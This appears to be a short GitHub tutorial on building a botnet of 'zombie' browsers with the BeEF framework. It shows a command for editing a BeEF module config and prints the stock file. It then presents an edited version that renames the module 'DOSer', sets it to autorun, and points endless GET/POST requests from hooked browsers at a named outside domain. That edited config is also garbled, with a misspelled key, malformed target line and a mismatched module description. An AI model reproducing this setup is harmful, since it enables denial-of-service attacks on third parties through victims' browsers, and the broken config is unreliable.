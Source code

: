 # Botnets
Ehical Hacking - create a zombie computer network

## Tool : `BeEF`
<hr>
The meaning of botnet has extended to networks of zombie machines, used in particular for mining cryptocurrencies but also for malicious uses, such as sending spam and computer viruses, or computer attacks by denial of service (DDoS).
<center>
<img src="Botnets1.png" width="50%">
</center>

Go to configure config.yaml file
```bash
sudo nano /usr/share/beef-xss/modules/persistence/confirm_close_tab/config.yaml
```
output
```bash
/usr/share/beef-xss/modules/persistence/confirm_close_tab/config.yaml           
#
# Copyright (c) 2006-2019 Wade Alcorn - wade@bindshell.net
# Browser Exploitation Framework (BeEF) - http://beefproject.com
# See the file 'doc/COPYING' for copying permission
#
beef:
    module:
        confirm_close_tab:
            enable: true
            category: "Persistence"
            name: "Confirm Close Tab"
            description: "Shows a confirm dialog to the user when they try to c>
            authors: ["antisnatchor"]
            target:
                user_notify: ["ALL"]
                not_working: ["O"]

```
## Let's to try
```bash
/usr/share/beef-xss/modules/persistence/confirm_close_tab/config.yaml           
#
# Copyright (c) 2006-2019 Wade Alcorn - wade@bindshell.net
# Browser Exploitation Framework (BeEF) - http://beefproject.com
# See the file 'doc/COPYING' for copying permission
#
beef:
    module:
        confirm_close_tab:
            enable: true
            category: "Network"
            autorun: true
            name: "DOSer"
            description: "Do not infinite GET or POST requests to a target, spawning a webWorker in order to don't slow down the hooked page. If the browser doesn't support webWorkers, the module will not run."
            autors:["antisnatchor"]
            target:http://kondah.com
                user_notify: ["ALL"]
                not_working: ["O"]

```
